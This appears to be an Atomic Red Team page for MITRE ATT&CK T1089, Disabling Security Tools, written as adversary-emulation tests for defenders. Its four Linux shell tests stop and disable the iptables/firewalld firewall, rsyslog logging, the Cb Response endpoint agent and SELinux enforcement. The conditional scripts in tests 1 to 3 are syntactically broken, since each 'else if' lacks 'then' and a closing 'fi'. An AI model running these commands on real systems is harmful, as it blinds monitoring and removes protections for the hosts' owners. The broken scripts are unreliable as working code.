 # T1089 - Disabling Security Tools Mitigation## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1089)
Ensure proper process, registry, and file permissions are in place to prevent adversaries from disabling or interfering with security services.


- [Atomic Test #1 - Disable iptables firewall](#atomic-test-1---disable-iptables-firewall)

- [Atomic Test #2 - Disable syslog](#atomic-test-2---disable-syslog)

- [Atomic Test #3 - Disable Cb Response](#atomic-test-3---disable-cb-response)

- [Atomic Test #4 - Disable SELinux](#atomic-test-4---disable-selinux)


<br/>

## Atomic Test #1 - Disable iptables firewall
Disables the iptables firewall

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service iptables stop
  chkconfig off iptables
  service ip6tables stop
  chkconfig off ip6tables
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop firewalld
  systemctl disable firewalld
fi

```
<br/>
<br/>

## Atomic Test #2 - Disable syslog
Disables syslog collection

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service rsyslog stop
  chkconfig off rsyslog
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop rsyslog
  systemctl disable rsyslog
fi

```
<br/>
<br/>

## Atomic Test #3 - Disable Cb Response
Disable the Cb Response service

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service cbdaemon stop
  chkconfig off cbdaemon
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop cbdaemon
  systemctl disable cbdaemon
fi

```
<br/>
<br/>

## Atomic Test #4 - Disable SELinux
Disables SELinux enforcement

**Supported Platforms:** linux


#### Run it with `sh`!
```
setenforce 0

```
<br/>
